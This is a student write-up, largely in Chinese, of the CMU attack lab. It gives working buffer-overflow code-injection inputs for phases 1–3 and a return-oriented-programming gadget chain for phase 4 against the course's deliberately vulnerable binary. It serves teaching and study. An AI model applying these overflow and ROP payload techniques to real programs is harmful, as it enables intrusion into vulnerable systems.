 ## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q

## Code Injection Attack
### phase_1 touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过

![](touch1.png)

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

### phase_2 touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码

![](touch2-injection.png)

```asm
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   c3                      retq
```
```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```

![](touch2.png)

### phase_3 touch_3
1. 思路与touch_2基本一样，只不过touch_3调用了一个hexmatch()函数，将cookie值解码成ascii字符串(0x59b997fa -> 35 39 62 39 39 37 66 61),我们需要通过injection code将“3539623939376661”存储在touch_3和hexmatch 栈空间接触不到的地方(否则会覆盖我们的字符串)，然后将存储的字符串的地址传递给%rdi, touch_3会把我们存储的字符串与hexmatch生成的cookie值的字符串进行比较，如果相等，touch3就完成了
2. 只要把字符串存在test 函数高地址空间的位置，这样hexmatch就无法overwrite我们存储的字符串，因为stack都是向更低的地址空间方向开辟新的地址
```c
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */ 
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */ if (hexmatch(cookie, sval)) {
          printf("Touch3!: You called touch3(\"%s\")\n", sval);
          validate(3);
      } else {
          printf("Misfire: You called touch3(\"%s\")\n", sval);
          fail(3); 
      }
  exit(0); }
```
```asm
0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi
7:   c3                      retq
```
```asm
"level3Instruct.txt" 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
48 c7 c7 b8 dc 61 55 c3
35 39 62 39 39 37 66 61
00 00 00 00
```

![](touch3.png)

## Return Oriented Programming
第二阶段 ROP attack 多了两种stack protection mechanisms : 
> 1. It uses randomization so that the stack positions differ from one run to another. This makes it impos- sible to determine where your injected code will be > located.
> 2. It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the > > program would fail with a segmentation fault.

也就是说我们无法确切知道injected code的确切地址，因为栈空间的起始地址每次运行都是随机生成的，并且开辟出来的栈空间上的指令是nonexecutable。但是我们依然可以利用binary file中的程序主体的assembly code 截取部分代码并运行。farm.c 中的函数assembly code 就存在这样的漏洞可供我们利用。例如:
```asm
0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq
```
48 89 e0 c3 这4bytes是相连接的，而48 89 e0所对应的assembly code 是movq %rsp, %rax; 这样我们可以在return address中注入addval_190地址0x401a03 + 0x3 的偏移，就能从getbuf跳转到<addval_190> + 0x3的位置并, 此时%rip program counter 指向0x401a06的位置并开始执行48 89 e0 c3指令
![](assembly-code-bit-pattern.png)

### phase_4
1. 与phase_2相同，我们要传递cookie值到%rdi,然后跳转到touch_2的地址
2. 观察farm.c的assembly code 发现，部分function的汇编代码可以用来做跳转和register之间的传值
```asm
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq

0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq

0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq

0000000000401a39 <addval_110>:
  401a39:       8d 87 c8 89 e0 c3       lea    -0x3c1f7638(%rdi),%eax
  401a3f:       c3                      retq

0000000000401a40 <addval_487>:
  401a40:       8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:       c3                      retq

0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq

00000000004019a7 <addval_219>:     -- pop rax
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```
3. <addval_219> 4019ab开始的指令58 90 c3 其中58对应popq %rax； 0x90对应nop；c3对应ret ｜ <addval_273> 4019a12开始的指令48 89 c7 c3 对应movq %rax, %rdi; ret
4. 有了这两条信息，我们可以将cookie值存储在栈空间，让程序首先跳转到0x4019ab, 将cookie值从栈上取出存入到%rax, ret返回后跳转到0x4019a12,将%rax 值传递给%rdi, ret返回后跳转到touch_2地址0x4017ec

![](phase4.png)

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

![](phase4_touch2.png)